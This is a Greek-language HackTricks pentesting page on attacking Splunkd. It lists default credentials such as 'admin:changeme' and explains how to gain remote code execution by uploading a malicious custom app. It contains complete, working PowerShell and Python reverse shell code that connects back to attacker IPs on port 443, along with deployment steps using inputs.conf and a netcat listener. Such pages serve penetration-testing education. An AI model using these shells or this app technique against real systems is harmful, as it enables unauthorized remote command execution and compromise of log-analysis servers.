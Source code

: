 # 8089 - Pentesting Splunkd

{{#include ../banners/hacktricks-training.md}}

## **Βασικές Πληροφορίες**

- Εργαλείο ανάλυσης καταγραφών που χρησιμοποιείται για τη συλλογή, ανάλυση και οπτικοποίηση δεδομένων
- Χρησιμοποιείται συνήθως στην παρακολούθηση ασφάλειας και στην επιχειρηματική ανάλυση
- Προεπιλεγμένες θύρες:
- Διακομιστής ιστού: 8000
- Υπηρεσία Splunkd: 8089

### Δυνητικοί Κίνδυνοι:

1. Εκμετάλλευση Δωρεάν Έκδοσης

- Η δοκιμαστική έκδοση μετατρέπεται αυτόματα σε δωρεάν έκδοση μετά από 60 ημέρες
- Η δωρεάν έκδοση δεν έχει αυθεντικοποίηση
- Πιθανός κίνδυνος ασφάλειας αν αφεθεί χωρίς διαχείριση
- Οι διαχειριστές μπορεί να παραβλέψουν τις επιπτώσεις ασφάλειας

2. Αδυναμίες Διαπιστευτηρίων

- Παλαιότερες εκδόσεις: Προεπιλεγμένα διαπιστευτήρια `admin:changeme`
- Νεότερες εκδόσεις: Διαπιστευτήρια που ορίζονται κατά την εγκατάσταση
- Πιθανότητα χρήσης αδύναμων κωδικών πρόσβασης (π.χ., `admin`, `Welcome`, `Password123`)

3. Ευκαιρίες Εκτέλεσης Κώδικα από Απόσταση

- Πολλαπλές μέθοδοι εκτέλεσης κώδικα:
- Εφαρμογές Django πλευράς διακομιστή
- REST endpoints
- Σενάρια εισόδου
- Σενάρια ειδοποίησης
- Υποστήριξη πολλαπλών πλατφορμών (Windows/Linux)
- Τα σενάρια εισόδου μπορούν να εκτελούνται:
- Bash scripts
- PowerShell scripts
- Batch scripts

Κύρια Δυνητική Εκμετάλλευση:

- Αποθήκευση ευαίσθητων δεδομένων
- Έλλειψη αυθεντικοποίησης στη δωρεάν έκδοση
- Πολλαπλοί κίνδυνοι για πιθανή εκτέλεση κώδικα από απόσταση
- Δυνατότητα εκμετάλλευσης σενάριων εισόδου για συμβιβασμό συστήματος

### Shodan

- `Splunk build`

## RCE

### Δημιουργία Προσαρμοσμένης Εφαρμογής

Το Splunk προσφέρει μια προηγμένη μέθοδο για την εκτέλεση κώδικα από απόσταση μέσω της ανάπτυξης προσαρμοσμένων εφαρμογών, εκμεταλλευόμενο τις διασυνοριακές δυνατότητες scripting του. Η βασική τεχνική εκμετάλλευσης περιστρέφεται γύρω από τη δημιουργία μιας κακόβουλης εφαρμογής που μπορεί να εκτελεί reverse shells σε συστήματα Windows και Linux.

Μια προσαρμοσμένη εφαρμογή μπορεί να εκτελεί **Python, Batch, Bash ή PowerShell scripts**. Επιπλέον, **το Splunk έρχεται με εγκατεστημένο Python**, οπότε ακόμη και σε **συστήματα Windows** θα μπορείτε να εκτελείτε κώδικα python.

Μπορείτε να χρησιμοποιήσετε [**αυτό**](https://github.com/0xjpuff/reverse_shell_splunk) το παράδειγμα με το **`bin`** που περιέχει παράδειγμα για [Python](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/rev.py) και [PowerShell](https://github.com/0xjpuff/reverse_shell_splunk/blob/master/reverse_shell_splunk/bin/run.ps1). Ή μπορείτε να δημιουργήσετε το δικό σας.

Η διαδικασία εκμετάλλευσης ακολουθεί μια συνεπή μεθοδολογία σε όλες τις πλατφόρμες:
```
splunk_shell/
├── bin        (reverse shell scripts)
└── default    (inputs.conf configuration)
```
Το κρίσιμο αρχείο ρύθμισης `inputs.conf` ενεργοποιεί το σενάριο με:

- Ρύθμιση `disabled = 0`
- Διαμόρφωση ενός διαστήματος εκτέλεσης 10 δευτερολέπτων
- Ορισμός του τύπου πηγής του σεναρίου

Η ανάπτυξη είναι απλή:

1. Δημιουργήστε το κακόβουλο πακέτο εφαρμογής
2. Ρυθμίστε έναν ακροατή (Netcat/socat) στη μηχανή επίθεσης
3. Ανεβάστε την εφαρμογή μέσω της διεπαφής του Splunk
4. Ενεργοποιήστε την αυτόματη εκτέλεση του σεναρίου κατά την ανέβασμα

Δείγμα Windows PowerShell reverse shell:
```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
Δείγμα αντίστροφης θήκης Python για Linux:
```python
import sys, socket, os, pty
ip = "10.10.14.15"
port = "443"
s = socket.socket()
s.connect((ip, int(port)))
[os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]
pty.spawn('/bin/bash')
```
### RCE & Privilege Escalation

Στην παρακάτω σελίδα μπορείτε να βρείτε μια εξήγηση για το πώς αυτή η υπηρεσία μπορεί να καταχραστεί για να κλιμακώσει τα δικαιώματα και να αποκτήσει επιμονή:

{{#ref}}
../linux-hardening/privilege-escalation/splunk-lpe-and-persistence.md
{{#endref}}

## References

- [https://academy.hackthebox.com/module/113/section/1213](https://academy.hackthebox.com/module/113/section/1213)

{{#include ../banners/hacktricks-training.md}}
